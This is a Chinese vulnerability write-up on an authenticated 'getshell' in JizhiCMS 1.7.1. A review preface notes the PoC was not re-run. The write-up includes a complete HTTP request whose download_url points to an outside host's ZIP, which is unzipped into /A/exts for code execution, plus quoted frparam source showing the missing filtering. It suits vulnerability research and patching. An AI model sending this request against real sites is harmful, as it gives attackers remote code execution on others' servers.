

## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：后台插件更新权限；可出网下载ZIP，A/exts目录写入/脚本执行

- **适用与权限边界（1）**：frparam代码实际return format_param，断言没有过滤但未跟进该函数，应明确过滤配置与缺URL/文件白名单。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

- **结论使用边界（2）**：ZIP结构/最终访问路径未文本给出；仅远程下载不证明解压后成功PHP执行。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **凭据与会话边界（3）**：管理员部署插件既有能力边界未说明；请求会话残留。抓包中的会话不能视为未认证访问证明。需重新取得授权测试会话，不能复用文中值。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# Jizhicms 1.7.1 后台getshell

一、漏洞简介
------------

二、漏洞影响
------------

Jizhicms 1.7.1

三、复现过程
------------

    POST /admin.php/Plugins/update.html HTTP/1.1
    Host: www.0-sec.org:8091
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:69.0) Gecko/20100101 Firefox/69.0
    Accept: application/json, text/javascript, */*; q=0.01
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded; charset=UTF-8
    X-Requested-With: XMLHttpRequest
    Content-Length: 80
    Origin: http://www.0-sec.org:8091
    Connection: close
    Referer: http://www.0-sec.org:8091/admin.php/Plugins/
    Cookie: PHPSESSID=tq79jo8omp5s72lq101noj48lq

    action=start-download&filepath=msgphone&download_url=http://www.0-sec.org/test/a.zip

攻击者可以控制download\_url传入参数的值，从而传入被压缩的可执行脚本，然后该压缩包会被解压并传入到特定位置，实现getshell所以只需要攻击者在自己控制的网站上压缩可执行脚本然后将url赋值给download\_url即可实现任意文件上传定位下函数位置，该函数位于/A/c/PluginsController.php下的update函数传进来的值通过frparam函数处理之后变赋值给了remote\_url跟进到frparam函数函数中，该函数位于/FrPHP/lib/Controller.php中

    public function frparam($str=null, $int=0,$default = FALSE, $method = null){

            $data = $this->_data;
            if($str===null) return $data;
            if(!array_key_exists($str,$data)){
                return ($default===FALSE)?false:$default;
            }
            if($method===null){
                $value = $data[$str];
            }else{
                $method = strtolower($method);
                switch($method){
                    case 'get':
                    $value = $_GET[$str];
                    break;
                    case 'post':
                    $value = $_POST[$str];
                    break;
                    case 'cookie':
                    $value = $_COOKIE[$str];
                    break;
                }
            }
            return format_param($value,$int);
        }

该函数并没有对传入的值进行过滤，只是简单的从data数组里取数据然后继续回到update函数，在获取到了remote\_url的值后便进行了下载以及解压缩的操作最后解压到的文件夹为/A/exts

参考链接
--------

> https://xz.aliyun.com/t/7775\#toc-3
